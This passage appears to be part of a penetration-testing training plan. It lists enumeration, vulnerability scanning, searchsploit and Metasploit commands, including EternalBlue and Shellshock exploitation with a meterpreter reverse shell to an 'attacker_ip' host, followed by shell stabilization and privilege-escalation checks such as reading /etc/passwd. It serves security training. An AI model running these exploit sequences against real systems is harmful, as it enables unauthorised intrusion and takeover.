 ```bash
nikto -h http://target

# SMB/NetBIOS  
enum4linux target_ip
smbclient -L \\target_ip
smbmap -H target_ip
rpcclient -U "" target_ip

# Practice Goal: Complete enumeration in under 30 minutes per target
```

**Week 3-4: Vulnerability Assessment & Exploitation**
```bash
# Vulnerability Identification Practice
nmap --script vuln target_ip
nmap --script=http-vuln* target_ip  
nmap --script=smb-vuln* target_ip

# Exploit Research Workflow
searchsploit apache 2.4
searchsploit -m exploit_number
searchsploit -x exploit_path

# Metasploit Proficiency Building
msfconsole -q
search ms17-010
search apache
search type:exploit platform:linux

# Common Exploitation Patterns
# Pattern 1: Web Application Exploitation
use auxiliary/scanner/http/dir_scanner
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set RHOSTS target
set TARGETURI /cgi-bin/test.cgi
exploit

# Pattern 2: SMB Exploitation  
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS target
set payload windows/x64/meterpreter/reverse_tcp
set LHOST attacker_ip
exploit

# Practice Goal: Successful exploitation in under 45 minutes per target
```

**Week 5-6: Post-Exploitation Skills**
```bash
# Shell Stabilization Practice
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
# Ctrl+Z, then:
stty raw -echo; fg

# Privilege Escalation Enumeration
sudo -l
find / -perm -4000 2>/dev/null
cat /etc/crontab
ps aux
netstat -antup
cat /etc/passwd

# File Transfer Practice
```